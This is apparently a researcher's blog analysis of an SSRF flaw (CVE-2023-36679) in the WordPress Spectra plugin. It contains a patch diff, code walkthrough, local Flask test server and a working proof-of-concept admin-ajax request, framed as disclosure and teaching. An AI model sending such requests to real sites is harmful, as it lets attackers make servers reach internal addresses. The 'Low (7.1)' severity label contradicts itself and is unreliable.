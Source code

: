 # CVE-2023-36679 Analysis & POC


<!--more-->

## CVE & Basic Info
A Server Side Request Forgery (SSRF) vulnerability was discovered in the WordPress **Spectra** plugin (previously named **Ultimate Addons for Gutenberg**) affecting versions up to `2.6.6`.

* **CVE ID**: [CVE-2023-36679](https://www.cve.org/CVERecord?id=CVE-2023-36679)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.6.6
* **Patched Versions**: 2.6.7
* **CVSS severity**: Low (7.1)
* **Required Privilege**: Contributor
* **Product**: [WordPress Spectra Plugin](https://wordpress.org/plugins/ultimate-addons-for-gutenberg/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Spectra**: **2.6.6** (vulnerable) and **2.6.7** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff/comparison tool to check and compare differences between the two versions.

## Analysis

### Patch diff

**Vulnerable version**:

```php {title="class-ast-block-templates.php v2.6.6" hl_lines=[2,6,14,21,24,26,28]}
public function template_importer() {	
    if ( ! current_user_can( 'edit_posts' ) ) {
        wp_send_json_error( __( 'You are not allowed to perform this action', 'astra-sites' ) );
    }
    // Verify Nonce.
    check_ajax_referer( 'ast-block-templates-ajax-nonce', '_ajax_nonce' );
    // other logic
    $api_args = apply_filters(
        'ast_block_templates_api_args',
        array(
            'timeout' => 15,
        )
    );
    $api_uri = ( isset( $_REQUEST['api_uri'] ) ) ? esc_url_raw( $_REQUEST['api_uri'] ) : '';
    $request_params = apply_filters(
        'ast_block_templates_api_params',
        array(
            '_fields' => 'original_content',
        )
    );
    $demo_api_uri = esc_url_raw( add_query_arg( $request_params, $api_uri ) );

    // API Call.
    $response = wp_remote_get( $demo_api_uri, $api_args );
    // other logic
    $data = json_decode( wp_remote_retrieve_body( $response ), true );

    wp_send_json_success( $data['original_content'] );
}
```

In version 2.6.6, the `template_importer()` function takes the `api_uri` parameter directly from `$_REQUEST` and uses that value to send an HTTP request via `wp_remote_get()`:

Because there is no validation or source restriction, an attacker can supply an arbitrary URL to force the server to make requests to internal addresses. This creates a **Server-Side Request Forgery (SSRF)** vulnerability.

**Patched version**:

```php {title="class-ast-block-templates.php v2.6.7" hl_lines=[2,6,14,15,16,23,26,28,30]}
public function template_importer() {	
    if ( ! current_user_can( 'edit_posts' ) ) {
        wp_send_json_error( __( 'You are not allowed to perform this action', 'astra-sites' ) );
    }
    // Verify Nonce.
    check_ajax_referer( 'ast-block-templates-ajax-nonce', '_ajax_nonce' );
    // other logic
    $api_args = apply_filters(
        'ast_block_templates_api_args',
        array(
            'timeout' => 15,
        )
    );
    $block_id   = isset( $_REQUEST['id'] ) ? absint( $_REQUEST['id'] ) : '';
    $block_data = get_option( 'ast-block-templates_data-' . $block_id );
    $api_uri = null !== $block_data ? $block_data->{'astra-page-api-url'} : '';
    $request_params = apply_filters(
        'ast_block_templates_api_params',
        array(
            '_fields' => 'original_content',
        )
    );
    $demo_api_uri = esc_url_raw( add_query_arg( $request_params, $api_uri ) );

    // API Call.
    $response = wp_remote_get( $demo_api_uri, $api_args );
    // other logic
    $data = json_decode( wp_remote_retrieve_body( $response ), true );

    wp_send_json_success( $data['original_content'] );
}
```

The patch removed taking a URL directly from user input. Instead, the code only accepts a **block ID** via `$_REQUEST['id']` and retrieves the corresponding URL from the database (`wp_options`) under the key `ast-block-templates_data-{id}`:

Thus, the URL is constrained to records managed by the system, eliminating the ability for a user to provide an arbitrary path. This mechanism prevents SSRF and increases safety when performing server-side API calls.

### Vulnerable Code 

`template_importer()` requires the user to have privileges from **Contributor** or higher

```php
if ( ! current_user_can( 'edit_posts' ) ) {
    wp_send_json_error( __( 'You are not allowed to perform this action', 'astra-sites' ) );
}
```

CSRF protection is implemented with a nonce named `_ajax_nonce`; if the nonce does not match, the logic exits and returns an error.

```php
check_ajax_referer( 'ast-block-templates-ajax-nonce', '_ajax_nonce' );
```

> [!TIP]
> The disclosed vulnerability requires **Contributor** privileges, so the `_ajax_nonce` value is very likely present in the Admin UI code.
> For vulnerabilities tied to Contributor privileges and post creation features, you can look for `_ajax_nonce` by inspecting the post creation/edit UI in the admin (or searching the script/HTML generated by the Admin pages).

![_ajax_nonce](nonce.png "_ajax_nonce in response")

After verification steps, the code takes the `api_uri` value directly from `$_REQUEST`, runs it through `esc_url_raw()`, appends query parameters, and performs an HTTP request using `wp_remote_get()`

```php
$api_uri = isset( $_REQUEST['api_uri'] ) ? esc_url_raw( $_REQUEST['api_uri'] ) : '';
$request_params = array( '_fields' => 'original_content' );
$demo_api_uri = esc_url_raw( add_query_arg( $request_params, $api_uri ) );

$response = wp_remote_get( $demo_api_uri, $api_args );
```

Finally it decodes the response and returns JSON with the `original_content` key

```php
$data = json_decode( wp_remote_retrieve_body( $response ), true );
wp_send_json_success( $data['original_content'] );
```

`template_importer()` is registered as the callback for the action hook:

```php
add_action( 'wp_ajax_ast_block_templates_importer', array( $this, 'template_importer' ) );
```

Meaning, when accessing the endpoint `/wp-admin/admin-ajax/php` with `action=ast_block_templates_importer` the `template_importer()` function is invoked.
## Exploit

### Local Server
Create a simple local service with python

```py
from flask import Flask, jsonify, request, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/test')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "original_content": "XNXX.COM"
}
```

### Proof of Concept (PoC)

1. Create a post and obtain the `_ajax_nonce`
2. Send a request with `api_uri` pointing to the local service `http://127.0.0.1:8001/test` as a **Contributor** user

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: application/json, text/javascript, */*; q=0.01
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=con%7C1761196421%7CqXmKZUf4pSlgQ1P9tEQA71pnVWLNanpuqdHLXAZXyFJ%7Cf3dc677b2e483f598ad00a36fbd2f18ed1ed5015b39fc2df533aeb573a8dc3fd; wp-settings-time-2=1761027443; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1761196421%7CqXmKZUf4pSlgQ1P9tEQA71pnVWLNanpuqdHLXAZXyFJ%7C1e8333233a2233576e988302d4f19d5c92470de4cc2bf4c1e31fb65788a44d35

action=ast_block_templates_importer&_ajax_nonce=3ef4c6d6df&api_uri=http://127.0.0.1:8001/test
```

**Result**:

![result](result.png "Read content from local service")

### Conclusion
Version `≤ 2.6.6` of the `Spectra (Ultimate Addons for Gutenberg)` plugin contains an SSRF vulnerability due to using `wp_remote_get()` with a URL supplied by the user without restricting or validating its source.
This allows an account with **Contributor** privileges to force the WordPress server to make requests to internal addresses.

### Key takeaways

* Do not trust URLs from the client; only use data available on the server.
* Prefer **`wp_safe_remote_get()`** over `wp_remote_get()`.
* Check HTTP response (status, MIME, content).
* Restrict who can make request calls to the minimum required role.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress Spectra Plugin <= 2.6.6 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/ultimate-addons-for-gutenberg/vulnerability/wordpress-spectra-plugin-2-6-6-server-side-request-forgery-ssrf-vulnerability)



---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-23-cve-2023-36679/  

